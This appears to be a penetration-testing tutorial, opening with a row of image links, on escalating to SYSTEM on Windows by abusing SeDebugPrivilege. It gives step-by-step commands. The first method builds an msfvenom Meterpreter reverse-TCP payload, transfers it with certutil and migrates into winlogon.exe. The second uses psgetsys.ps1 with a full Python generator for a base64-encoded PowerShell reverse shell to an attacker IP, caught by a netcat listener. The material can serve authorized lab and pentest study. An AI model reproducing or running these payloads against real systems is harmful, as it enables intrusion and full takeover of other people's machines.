









### **Introduction**

A 2008 blog post on *devblogs.microsoft.com* titled *“If you grant somebody SeDebugPrivilege, you gave away the farm”* highlights the risk of this privilege, A user with `SeDebugPrivilege` can debug **any process**, including those running as SYSTEM. This allows code injection into privileged processes, effectively granting full control over the system.

### **Exploiting SeDebugPrivilege via Meterpreter migrate**

1.  Generate a payload with `msfvenom`:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADDRESS] LPORT=9001 -f exe -o rev.exe`  
    
    

    **Note:** Host the payload using Python: `python -m http.server 80`
    
2.  Transfer the binary to the target using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/rev.exe rev.exe`  
    
    
    
3.  Set up a Metasploit handler:  
    `msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9001; run"`  
    
    
    
4.  Execute the payload on the target:  
    `.\rev.exe`  
    
    
    
5.  Identify a SYSTEM process (e.g., `winlogon.exe`):  
    `ps winlogon`  
    
    

    **Note:** Record the PID of `winlogon.exe`.
    
6.  Migrate to the SYSTEM process and open a shell:  
    ```
    migrate [PID]
    shell
    ```  
    
    

### **Exploiting SeDebugPrivilege via psgetsys.ps1**

1.  Download `psgetsys.ps1`:  
    `wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1`  
    
    

    **Note:** Host the script using Python: `python -m http.server 80`
    
2.  Transfer and import the script on the target:  
    `certutil -urlcache -f http://[IP-ADDRESS]:80/psgetsys.ps1 psgetsys.ps1`  
    
    

    Then import it:  
    `Import-Module .\psgetsys.ps1`
    
3.  Identify a SYSTEM process (e.g., `winlogon.exe`):  
    `(Get-WmiObject Win32_Process -Filter "Name='winlogon.exe'").ProcessId`
    
4.  Generate a Base64-encoded PowerShell reverse shell using the following Python script:

    ```python
    #!/usr/bin/env python3
    import sys, base64

    def help():
        print("USAGE: %s IP PORT" % sys.argv[0])
        print("Returns reverse shell PowerShell base64 payload for IP:PORT")
        exit()

    try:
        (ip, port) = (sys.argv[1], int(sys.argv[2]))
    except:
        help()

    payload = ('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);'
               '$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};'
               'while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;'
               '$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);'
               '$sendback = (iex $data 2>&1 | Out-String );'
               '$sendback2 = $sendback + "PS " + (pwd).Path + "> ";'
               '$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);'
               '$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()')
    payload = payload % (ip, port)

    cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
    print(cmdline)
    ```
    
5.  Run the script to generate the payload:  
    `python3 revshell.py 10.11.92.52 9002`  
    
    
    
6.  Impersonate and execute a command with SYSTEM privileges:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"
    ```
    
7.  If you encounter **Error 122: ERROR_INSUFFICIENT_BUFFER**, the payload is too long. Use shorter commands or split the payload. For example:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c ping [IP-ADDRESS]"
    ```
    
8.  Run `psgetsys.ps1` again with the proper payload to gain SYSTEM:  
    ```
    ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e [BASE64-ENCODED-COMMAND]"
    ```
    
9.  Set up a Netcat listener to catch the shell:  
    `rlwrap -cAr nc -lnvp 9002`